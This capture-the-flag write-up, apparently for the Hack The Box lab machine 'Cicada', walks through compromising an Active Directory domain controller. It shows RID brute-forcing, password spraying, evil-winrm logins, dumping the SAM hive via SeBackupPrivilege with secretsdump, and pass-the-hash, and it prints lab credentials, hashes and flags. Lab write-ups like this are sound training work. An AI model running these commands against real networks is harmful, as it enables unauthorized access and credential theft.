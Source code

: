```yaml
---
sticker: emoji//1fab0
---
```

# ENUMERATION
---

## OPEN PORTS
---

| PORT   | SERVICE       |
| :----- | :------------ |
| 53/tcp | domain        |
| 88/tcp | kerberos-sec  |
| 135/tcp| msrpc         |
| 139/tcp| netbios-ssn   |
| 389/tcp| ldap          |
| 445/tcp| microsoft-ds? |
| 464/tcp| kpasswd5?     |
| 593/tcp| ncacn_http    |
| 636/tcp| ssl/ldap      |
| 3268/tcp| ldap         |
| 3269/tcp| ssl/ldap     |
| 5985/tcp| http         |
Let's start reconnaissance.

# RECONNAISSANCE
---

We are facing a AD machine, let's start with some basic SMB enumeration:


![](cybersecurity/images/Pasted%2520image%252020250116135424.png)

We can use netexec to perform a simple check on SMB and WINRM:

![](cybersecurity/images/Pasted%2520image%252020250116135538.png)


We can attempt to log into SMB without the authentication process using `smbclient -NL IP`:

![](cybersecurity/images/Pasted%2520image%252020250116135823.png)


We found interesting shares, let's check out `HR`:

![](cybersecurity/images/Pasted%2520image%252020250116135909.png)


We find a `Notice from HR.txt` file, let's download it and check it:

![](cybersecurity/images/Pasted%2520image%252020250116140031.png)

We got a default password, my guess would be we need to perform a basic brute force to enumerate users, this would be in the following way:

```ad-note
`netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute`
```

We get the following output:

```
netexec smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\anonymous: (Guest)
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)     
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)               
SMB         10.10.11.35     445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)                
SMB         10.10.11.35     445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)                
SMB         10.10.11.35     445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)                       
SMB         10.10.11.35     445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)                         
SMB         10.10.11.35     445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)     
SMB         10.10.11.35     445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)      
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```



# EXPLOITATION
---

Let's store all the usernames in a file and perform password spraying:


`nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`


![](cybersecurity/images/Pasted%2520image%252020250116140940.png)



We found the user, these are the credentials:

```ad-note

`michael.wrightson`:`Cicada$M6Corpb*@Lp#nZp!8`

```


We can search for more privileged users:

![](cybersecurity/images/Pasted%2520image%252020250116141256.png)

We found an account with the following credentials:

```ad-note
`david.orelious`:`aRt$Lp#7t*VQ!3`
```


Let's check the shares this account has access to:


![](cybersecurity/images/Pasted%2520image%252020250116141414.png)

We can now read the `DEV` share, let's take a look at it:


![](cybersecurity/images/Pasted%2520image%252020250116141607.png)

Found a `Backup_script.ps1` file, let's view the contents:



![](cybersecurity/images/Pasted%2520image%252020250116141718.png)

Found more credentials: 

```ad-note

`emily.oscars`:`Q!3@Lp#M6b*7t*Vt`
```


Let's check if we are able to get a shell with those credentials using `evil-winrm`:

```ad-success
`evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'`


![](cybersecurity/images/Pasted%2520image%252020250116142124.png)

```


We can read `user.txt` and begin with privilege escalation:

```ad-note
![](cybersecurity/images/Pasted%2520image%252020250116142223.png)

User: `74b2598907182ac31cca52c79b20eb0a`
```

# PRIVILEGE ESCALATION
---

In order to begin with privilege escalation, we can start enumerating our privileges:


`whoami /priv`


![](cybersecurity/images/Pasted%2520image%252020250116142402.png)

We can make use of `SeBackupPrivilege` in order to escalate our privileges, let's use the following PoC:

![](cybersecurity/images/Pasted%2520image%252020250116142600.png)

![](cybersecurity/images/Pasted%2520image%252020250116142623.png)


But, we can simplify the PoC in the following way:

```ad-summary
1. `reg save hklm\sam sam`
2. `reg save hklm\system system`
3. `download sam`
4. `download system`
5. `impacket-secretsdump LOCAL -sam sam -system sytem`


#### Output
----

![](cybersecurity/images/Pasted%2520image%252020250116144219.png)

And like that, we can get our admin hash.
```


```
impacket-secretsdump LOCAL -sam sam -system system
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```

Let's log in using Pass the hash:

![](cybersecurity/images/Pasted%2520image%252020250116144347.png)

And our root flag is the following: 

```ad-note

Root: `568e019774b66b875a024dfa590b84dc`
```


